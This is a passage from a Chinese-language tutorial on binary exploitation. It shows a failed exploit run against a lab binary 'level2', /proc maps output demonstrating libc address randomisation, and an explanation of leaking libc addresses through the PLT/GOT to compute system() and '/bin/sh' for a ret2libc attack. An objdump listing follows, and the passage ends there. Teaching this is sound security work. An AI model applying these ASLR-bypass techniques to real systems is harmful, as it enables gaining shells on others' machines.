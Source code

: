 <pre class="prettyprint" nodeIndex="101">
<code nodeIndex="185">#!bash
$python exp2.py 
[+] Started program './level2'
[*] Switching to interactive mode
[*] Program './level2' stopped with exit code -11
[*] Got EOF while reading in interactive
</code>
</pre>
<p nodeIndex="102">如果你通过 <code nodeIndex="186">sudo cat /proc/[pid]/maps</code> 或者ldd查看，你会发现level2的libc.so地址每次都是变化的。</p>
<pre class="prettyprint" nodeIndex="103">
<code nodeIndex="187">#!bash
cat /proc/[第1次执行的level2的pid]/maps
b759c000-b7740000 r-xp 00000000 08:01 525196     /lib/i386-linux-gnu/libc-2.15.so
b7740000-b7741000 ---p 001a4000 08:01 525196     /lib/i386-linux-gnu/libc-2.15.so
b7741000-b7743000 r--p 001a4000 08:01 525196     /lib/i386-linux-gnu/libc-2.15.so
b7743000-b7744000 rw-p 001a6000 08:01 525196     /lib/i386-linux-gnu/libc-2.15.so

cat /proc/[第2次执行的level2的pid]/maps
b7546000-b76ea000 r-xp 00000000 08:01 525196     /lib/i386-linux-gnu/libc-2.15.so
b76ea000-b76eb000 ---p 001a4000 08:01 525196     /lib/i386-linux-gnu/libc-2.15.so
b76eb000-b76ed000 r--p 001a4000 08:01 525196     /lib/i386-linux-gnu/libc-2.15.so
b76ed000-b76ee000 rw-p 001a6000 08:01 525196     /lib/i386-linux-gnu/libc-2.15.so

cat /proc/[第3次执行的level2的pid]/maps
b7560000-b7704000 r-xp 00000000 08:01 525196     /lib/i386-linux-gnu/libc-2.15.so
b7704000-b7705000 ---p 001a4000 08:01 525196     /lib/i386-linux-gnu/libc-2.15.so
b7705000-b7707000 r--p 001a4000 08:01 525196     /lib/i386-linux-gnu/libc-2.15.so
b7707000-b7708000 rw-p 001a6000 08:01 525196     /lib/i386-linux-gnu/libc-2.15.so
</code>
</pre>
<p nodeIndex="104">那么如何解决地址随机化的问题呢？思路是：我们需要先泄漏出libc.so某些函数在内存中的地址，然后再利用泄漏出的函数地址根据偏移量计算出system()函数和 <code nodeIndex="188">/bin/sh</code> 字符串在内存中的地址，然后再执行我们的ret2libc的shellcode。既然栈，libc，heap的地址都是随机的。我们怎么才能泄露出libc.so的地址呢？方法还是有的，因为程序本身在内存中的地址并不是随机的，如图所示：</p>
<div id="RIL_IMG_1" class="RIL_IMG"><img src="/media/posts_images/2015-06-13-952693009/1"/></div>
<p nodeIndex="106">Linux内存随机化分布图</p>
<p nodeIndex="107">所以我们只要把返回值设置到程序本身就可执行我们期望的指令了。首先我们利用objdump来查看可以利用的plt函数和函数对应的got表：</p>
<pre class="prettyprint" nodeIndex="108">
<code nodeIndex="190">#!bash
$ objdump -d -j .plt level2

Disassembly of section .plt:

08048310 <read@plt>:
 8048310:   ff 25 00 a0 04 08       jmp    *0x804a000
 8048316:   68 00 00 00 00          push   $0x0
 804831b:   e9 e0 ff ff ff          jmp    8048300 <_init+0x30>

08048320 <__gmon_start__@plt>:
 8048320:   ff 25 04 a0 04 08       jmp    *0x804a004
 8048326:   68 08 00 00 00          push   $0x8
 804832b:   e9 d0 ff ff ff          jmp    8048300 <_init+0x30>
